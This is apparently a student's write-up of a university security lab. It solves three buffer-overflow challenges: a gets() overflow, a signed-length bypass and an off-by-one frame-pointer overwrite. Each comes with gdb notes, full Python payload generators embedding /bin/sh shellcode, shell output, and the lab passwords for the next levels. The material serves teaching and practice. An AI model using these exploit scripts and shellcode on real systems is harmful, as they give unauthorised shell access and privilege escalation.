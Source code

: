 ## 1

The makefile is interesting and I think the professor tried his best to
make the program unsafe.
Just run gdb and see what happens:

```
invoke -d dejavu
break deja_vu
run
x/24i $pc
#- ---------------
=> 0xb7ffc4ab <deja_vu+6>:	sub    $0xc,%esp
   0xb7ffc4ae <deja_vu+9>:	lea    -0x10(%ebp),%eax
   0xb7ffc4b1 <deja_vu+12>:	push   %eax
   0xb7ffc4b2 <deja_vu+13>:	call   0xb7ffc75e <gets>
   0xb7ffc4b7 <deja_vu+18>:	add    $0x10,%esp
   0xb7ffc4ba <deja_vu+21>:	nop
   0xb7ffc4bb <deja_vu+22>:	leave  
   0xb7ffc4bc <deja_vu+23>:	ret    
   0xb7ffc4bd <main>:	lea    0x4(%esp),%ecx
   0xb7ffc4c1 <main+4>:	and    $0xfffffff0,%esp
   0xb7ffc4c4 <main+7>:	pushl  -0x4(%ecx)
   0xb7ffc4c7 <main+10>:	push   %ebp
   0xb7ffc4c8 <main+11>:	mov    %esp,%ebp
   0xb7ffc4ca <main+13>:	push   %ecx
   0xb7ffc4cb <main+14>:	sub    $0x4,%esp
   0xb7ffc4ce <main+17>:	call   0xb7ffc4a5 <deja_vu>
   0xb7ffc4d3 <main+22>:	mov    $0x0,%eax
   0xb7ffc4d8 <main+27>:	add    $0x4,%esp
   0xb7ffc4db <main+30>:	pop    %ecx
   0xb7ffc4dc <main+31>:	pop    %ebp
   0xb7ffc4dd <main+32>:	lea    -0x4(%ecx),%esp
   0xb7ffc4e0 <main+35>:	ret    
   0xb7ffc4e1 <dummy>:	ret    
   0xb7ffc4e2 <dummy1>:	ret    
```

Then we go to the call instruction.

```
break *0xb7ffc4b2
c
```

I saw that eax is 0xbffffab8. The return address should original be 0xb7ffc4d3 (in main), and I can easily find it at 0xbffffacc. So I should put payload at 0xbffffad0 and input `0123456789abcdef0123456789abcdef01234567 + bffffa40 + payload`, where paylaod is `6a3158cd8089c389c16a4658cd8031c050682f2f7368682f62696e545b505389e131d2b00bcd800a`. After fixing byte sequence problem with python, the input.txt is ready.

Now I can see 
```
pwnable:~$ ./exploit 
dumb-shell $ id
uid=1002(smith) gid=1001(vsftpd) groups=1001(vsftpd)
dumb-shell $ cat README
You have to let it all go. Fear, doubt, and disbelief. Free your mind.

Next username: smith
Next password: 37ZFBrAPm8
```

My code is attached below
```
#!/usr/bin/python3

def fuck8(txt):
    assert(len(txt) == 8)
    return txt[6:8] + txt[4:6] + txt[2:4] + txt[0:2]

def revert(txt):
    assert(len(txt) % 8 == 0)
    res = ""
    for i in range(int(len(txt) / 8)):
        res += fuck8(txt[i*8:(i+1)*8])
    return res


fill = "0123456789abcdef0123456789abcdef01234567"
#cs161-ace# raddr = "bffffa40"
#cs161-atw# raddr = "bffffad0"
raddr = "bffffad0"
#shellcode = "\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"
shellcode = "6a3158cd8089c389c16a4658cd8031c050682f2f7368682f62696e545b505389e131d2b00bcd800a"
########################################################################################### <- append an endline (0x0a, \n)

payload = revert(fill) + revert(raddr) + (shellcode)
#print(payload)

import binascii

b = binascii.unhexlify(payload)
with open('/dev/fd/1','wb') as f:
    f.write(b)
```

## 2

Just do as what I did in problem 1. I can see the return address is 0x00400775, stored at &msg+128+20.
Because the buffer is large enough, I'll put payload here. &msg is 0xbffffa18, so I must change 0x00400775
to 0xbffffa18.

Oh I didn't tell you how should I bypass the `size` limit. Just put a `-1` and enjoy your day.

Now I can see

```
pwnable:~$ ./exploit 
j1X̀�É�jFX̀1�Ph//shh/binT[PS��1Ұ

�
/home/smith $ id
uid=1003(brown) gid=1002(smith) groups=1002(smith)
/home/smith $ cat README
Welcome to the real world.

Next username: brown
Next password: mXFLFR5C62
```

My code is attached below.
```
#!/usr/bin/python3

def fuck8(txt):
    assert(len(txt) == 8)
    return txt[6:8] + txt[4:6] + txt[2:4] + txt[0:2]

def revert(txt):
    assert(len(txt) % 8 == 0)
    res = ""
    for i in range(int(len(txt) / 8)):
        res += fuck8(txt[i*8:(i+1)*8])
    return res


raddr = "bffffa18"
#shellcode = "\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"
shellcode = "6a3158cd8089c389c16a4658cd8031c050682f2f7368682f62696e545b505389e131d2b00bcd800a"

length_to_fill = 20 + 128 - int(len(shellcode)/2)
fill = "01" * length_to_fill

int8_neg1 = "ff"

payload = int8_neg1 + (shellcode) + fill + revert(raddr)
#print(payload)

import binascii

b = binascii.unhexlify(payload)
with open('/dev/fd/1','wb') as f:
    f.write(b)
```

## 3

The question is off-by-one overflow problem. After reading aslr.pdf figure 30, I know that I should set %ebp to &buf[0] (0xbffffa40), and put the new return address in &buf[1], and put the payload. So I should overflow an "40" to %ebp. Now I'll do it.

However, after implementing the solution above, ./debug-exploit works but ./exploit doesn't. That's because overflowed "0x40" xor "1<<5" yields "`", which is beaking the shell (in the buggy exploit script). So I shift everything 4 bytes right. Now %ebp is set to &buf[1] and new return address is set to &buf[2] and overflowed byte is "44". Now everything is OK.

```
pwnable:~$ ./exploit
#Eg#EgL���j1X̀�É�jFX̀1�Ph//shh/binT[PS��1Ұ

D���9���'�������]���'��� ���4���
/home/brown $ cat README
Remember, all I'm offering is the truth. Nothing more.

Next username: jz
Next password: cqkeuevfIO
```

My `./arg` is still attached below. Note that my `./egg` is empty.

```
#!/usr/bin/python3

def fuck8(txt):
    assert(len(txt) == 8)
    return txt[6:8] + txt[4:6] + txt[2:4] + txt[0:2]

def revert(txt):
    assert(len(txt) % 8 == 0)
    res = ""
    for i in range(int(len(txt) / 8)):
        res += fuck8(txt[i*8:(i+1)*8])
    return res

## The FUCKING silly script booms the shell because overflow="40"="`".
## cs161-atw
#raddr = "bffffa48"
##shellcode = "\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"
#shellcode = "6a3158cd8089c389c16a4658cd8031c050682f2f7368682f62696e545b505389e131d2b00bcd800a"
#
#overflow = "40" 
#buf0 = "01234567"
#
#length_to_fill = 64 - 8 - int(len(shellcode)/2)
#fill = "01" * length_to_fill
#
#payload = buf0 + revert(raddr) + (shellcode) + fill + overflow

## cs161-atw
raddr = "bffffa4c"
#shellcode = "\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"
shellcode = "6a3158cd8089c389c16a4658cd8031c050682f2f7368682f62696e545b505389e131d2b00bcd800a"

overflow = "44"
buf0 = "01234567"

length_to_fill = 64 - 8 - 4 - int(len(shellcode)/2)
fill = "01" * length_to_fill

payload = buf0 + buf0 + revert(raddr) + (shellcode) + fill + overflow


import binascii

b = binascii.unhexlify(payload)
b = bytes([byte^(1<<5) for byte in b])
with open('/dev/fd/1','wb') as f:
    f.write(b)

```



